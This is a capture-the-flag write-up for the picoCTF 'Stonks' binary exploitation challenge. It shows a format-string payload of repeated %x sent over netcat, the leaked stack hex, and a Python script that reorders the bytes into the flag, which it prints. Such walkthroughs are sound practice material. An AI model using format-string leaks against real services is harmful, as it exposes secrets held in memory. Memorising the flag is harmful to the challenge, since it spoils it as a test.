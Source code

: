 # **Problem Statement**

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`

# Information

**Point Value:** 20 points

**Category:** Binary Exploitation

# Hints

1. Okay, maybe I'd believe you if you find my API key.

# Solution

## mac0S Terminal

1. Within terminal type `nc mercury.picoctf.net 59616`
2. Type `1`
3. For the API token, type the following `%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x` Hit enter.
4. It will output `854c3d0804b00080489c3f7fb1d80ffffffff1854a160f7fbf110f7fb1dc70854b1801854c3b0854c3d06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ffc1007df7fecaf8f7fbf440826b260010f7e4ece9f7fc00c0f7fb15c0f7fb1000ffc1f998f7e3f68df7fb15c08048ecaffc1f9a40f7fd3f09804b000f7fb1000f7fb1e20ffc1f9d8f7fd9d50f7fb2890826b2600f7fb1000804b000ffc1f9d88048c86854a160ffc1f9c4ffc1f9d8`
5. Go to a [Hex to ASCII Converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
6. It will output `ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿÁ}`. The flag needs to be rearranged. 
7. Using the following python script to get the flag
    
    ```python
    string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿÁ}"
    out = ""
    temp = ""
    index = 0
    for char in string:
        temp += char
        index += 1
        if index%4 == 0:
            fwd = ""
            for temp_char in temp:
                fwd = temp_char + fwd
            out += fwd
            temp = ""
    print(out)
    ```
    

# Flag

picoCTF{I_l05t_4ll_my_m0n3y_6148be54
